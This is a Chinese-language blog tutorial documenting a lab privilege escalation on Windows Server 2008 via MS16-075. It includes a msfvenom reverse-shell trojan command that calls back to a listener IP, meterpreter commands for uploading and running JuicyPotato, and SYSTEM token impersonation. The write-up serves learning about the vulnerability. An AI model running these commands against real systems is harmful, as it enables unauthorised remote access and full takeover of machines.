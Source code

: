 # ms-16075提权Windows Server 2008


>光看网上的文章是不够的，还是要多动手才行


#### ms16-075漏洞简介
Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。
漏洞详情，[请戳这里](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2016/ms16-075)




#### 开始动手
1.假设是msfvenom生成木马，目标执行了，监听会话，获得meterpreter会话权限

```bash
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.0.103 lport=4444 -f exe > shell.exe
```

2.先看一下当前权限(确保我没有作弊)
![](http://image.geoer.cn/ms16075_download.png)

3.查看系统信息，并导出
```bash
# (进入cmd)
shell
chcp   65001     # 将编码格式改为utf-8中文
systeminfo >> c:\out.txt   将系统信息输出到out.txt文件
```

4.在meterpreter把结果文件下载到本地

```bash
download   D:\\xxxx\\upload\\out.txt   /tmp/out.txt    
```
![](http://image.geoer.cn/ms16075_download.png)



5.这里选择`Windows-Exploit-Suggeste`提权辅助工具，对结果文件在本地进行分析, 查找系统未打补丁有哪些
```
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -i out.txt -d 2020-05-09-mssb.xls -l  # -i是systeminfo的结果文件
```
![](http://image.geoer.cn/ms16075_poc.png)

可以看到可能存在ms16-075漏洞
![](http://image.geoer.cn/ms16075_in.png)


6.开始验证
```bash
# 上传ms16-075的exp: JuicyPotato.exe至靶机
upload /root/Desktop/JuicyPotato.exe  C:\\

execute -cH -f  C:\\JuicyPotato.exe    # 执行poc(前面已经把poc上传到目标了), 创建新的进程
impersonate_token "NT AUTHORITY\\SYSTEM"    # 窃取, 假冒目标主机上的可用令牌

```
![](http://image.geoer.cn/ms16075_in.png)

7.查看当前权限，提取成功
```bash
getuid                # 查看当前权限
```
![](http://image.geoer.cn/ms16075_ok.png)


8.后面的事情，嘿嘿你懂得



>这里只是没有防护的情况下的一次简单实验，有点简陋有点水





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/ms-16075%E6%8F%90%E6%9D%83windows-server-2008/  

